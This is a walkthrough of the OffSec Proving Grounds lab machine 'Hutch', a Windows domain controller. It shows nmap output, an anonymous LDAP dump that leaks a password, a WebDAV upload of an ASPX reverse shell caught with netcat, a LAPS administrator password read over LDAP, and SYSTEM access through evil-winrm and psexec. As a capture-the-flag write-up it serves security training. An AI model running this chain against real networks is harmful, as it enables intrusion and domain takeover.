


Info:
IP: 192.168.157.122
OS:
Domain: hutch.offsec

Links:
```bash
https://medium.com/@huwanyu94/proving-grounds-practice-hutch-walkthrough-847fc4cc5ac3
```
Standard enum:

# NMAP
```bash
nmap -p- -sCV 192.168.157.122 --open                                                                          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-09 20:25 EDT
Stats: 0:01:03 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 41.06% done; ETC: 20:28 (0:01:30 remaining)
Nmap scan report for 192.168.194.122
Host is up (0.048s latency).
Not shown: 65514 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/10.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Server Date: Fri, 10 Oct 2025 00:28:52 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-10 00:28:04Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49755/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.95%I=7%D=10/9%Time=68E85323%P=x86_64-pc-linux-gnu%r(DNS-
SF:SD-TCP,30,"\0\.\0\0\x80\x82\0\x01\0\0\0\0\0\0\t_services\x07_dns-sd\x04
SF:_udp\x05local\0\0\x0c\0\x01");
Service Info: Host: HUTCHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-10-10T00:28:55
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 219.01 seconds
```

# Worth checking:
```bash
80 - HTTP
139, 445 - smb
389, 636, 3268, 3269 - LDAP
5985 - WinRM
```
80 - Wasted


139,445 - Wasted
```bash
crackmapexec smb 192.168.194.122  --shares
```


389, 636, 3268, 3269 - LDAP
Got it!

```bash
ldapsearch -H ldap://192.168.157.122 -x -b"DC=hutch,DC=offsec" >> hutch.ldap

or to get just username and description
ldapsearch -H ldap://192.168.157.122 -x -b"DC=hutch,DC=offsec" | grep -E "^(sAMAccountName|description):"
```
in text we found password:
```bash
fmcsorley:CrabSharkJellyfish192
```


Check smb:
```bash
impacket-smbclient fmcsorley:CrabSharkJellyfish192@192.168.157.122
```
Nothing special

lets use cadaver with out login:pass
```bash
cadaver http://192.168.157.122/                                            
Authentication required for 192.168.157.122 on server `192.168.157.122':
Username: fmcsorley
Password:
```

now ls files:
```bash
Listing collection `/': succeeded.
Coll:   aspnet_client                          0  Nov  4  2020
        iisstart.htm                         703  Nov  4  2020
        iisstart.png                       99710  Nov  4  2020
        index.aspx                          1241  Nov  4  2020
```

lets find revshell with .aspx in google. Second hit 

```bash
https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx
```

Update shell info info:
```bash
	protected void Page_Load(object sender, EventArgs e)
    {
	    String host = "127.0.0.1"; //CHANGE THIS
            int port = 1234; ////CHANGE THIS
                
        CallbackShell(host, port);
```

upload file
```bash
dav:/> mput shell.aspx
Uploading shell.aspx to `/shell.aspx':
Progress: [=============================>] 100.0% of 15973 bytes succeeded.
```

run nc:
```bash
nc -lvnp 4444
```
run in browser:
```bash
192.168.157.122/shell.aspx
```


and we got it!
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.157.122] 50811
Spawn Shell...
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
```

Now, go to C:\ and investigate

```bash
c:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0A26-9DC1

 Directory of c:\

11/03/2020  10:35 PM    <DIR>          inetpub
10/10/2025  02:41 PM             2,696 output.txt
11/03/2020  09:34 PM    <DIR>          PerfLogs
02/16/2021  11:27 PM    <DIR>          Program Files
11/03/2020  10:37 PM    <DIR>          Program Files (x86)
11/03/2020  11:19 PM    <DIR>          Users
10/10/2025  03:19 PM    <DIR>          Windows


c:\Program Files>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0A26-9DC1

 Directory of c:\Program Files

02/16/2021  11:27 PM    <DIR>          .
02/16/2021  11:27 PM    <DIR>          ..
11/04/2020  05:08 AM    <DIR>          Common Files
11/03/2020  09:34 PM    <DIR>          internet explorer
11/03/2020  10:59 PM    <DIR>          LAPS
11/03/2020  10:37 PM    <DIR>          MSBuild
11/03/2020  10:37 PM    <DIR>          Reference Assemblies
02/16/2021  11:27 PM    <DIR>          VMware
12/08/2020  08:22 PM    <DIR>          Windows Defender
12/08/2020  08:22 PM    <DIR>          Windows Defender Advanced Threat Protection
09/15/2018  12:19 AM    <DIR>          Windows Mail
11/03/2020  09:34 PM    <DIR>          Windows Media Player
09/15/2018  12:19 AM    <DIR>          Windows Multimedia Platform
09/15/2018  12:28 AM    <DIR>          windows nt
11/03/2020  09:34 PM    <DIR>          Windows Photo Viewer
09/15/2018  12:19 AM    <DIR>          Windows Portable Devices
09/15/2018  12:19 AM    <DIR>          Windows Security
09/15/2018  12:19 AM    <DIR>          WindowsPowerShell
```
We have LAPS folder in Program files, that means we can get password with ldapsearch or bloodyAD 

```bash
ldapsearch -x -H ldap://192.168.157.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

gives:

# extended LDIF
#
# LDAPv3
# base <dc=hutch,dc=offsec> with scope subtree
# filter: (ms-MCS-AdmPwd=*)
# requesting: ms-MCS-AdmPwd 
#

# HUTCHDC, Domain Controllers, hutch.offsec
dn: CN=HUTCHDC,OU=Domain Controllers,DC=hutch,DC=offsec
ms-Mcs-AdmPwd: {6h3.06;T#},4r

# search reference
ref: ldap://ForestDnsZones.hutch.offsec/DC=ForestDnsZones,DC=hutch,DC=offsec

# search reference
ref: ldap://DomainDnsZones.hutch.offsec/DC=DomainDnsZones,DC=hutch,DC=offsec

# search reference
ref: ldap://hutch.offsec/CN=Configuration,DC=hutch,DC=offsec

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3


or 

bloodyAD --host 192.168.157.122 -d hutch.offsec -u fmcsorley -p CrabSharkJellyfish192 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime

gives:

distinguishedName: CN=HUTCHDC,OU=Domain Controllers,DC=hutch,DC=offsec
ms-Mcs-AdmPwd: {6h3.06;T#},4r
ms-Mcs-AdmPwdExpirationTime: 134071982738882614

```

Now, when we have password we can use EvilWinRM or psexec:


```bash
evil-winrm -i 192.168.157.122  -u Administrator -p "{6h3.06;T#},4r"                                                                                                                      
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

or:


impacket-psexec  Administrator:'{6h3.06;T#},4r'@192.168.157.122
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.157.122.....
[*] Found writable share ADMIN$
[*] Uploading file qaROGtQg.exe
[*] Opening SVCManager on 192.168.157.122.....
[*] Creating service BGeU on 192.168.157.122.....
[*] Starting service BGeU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd C:\
 
C:\> cd Users
 
C:\Users> cd Administrator
 
C:\Users\Administrator> cd Desktop
 
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 0A26-9DC1

 Directory of C:\Users\Administrator\Desktop

11/08/2020  06:32 PM    <DIR>          .
11/08/2020  06:32 PM    <DIR>          ..
10/10/2025  02:41 PM                34 proof.txt
               1 File(s)             34 bytes
               2 Dir(s)  14,807,617,536 bytes free

```
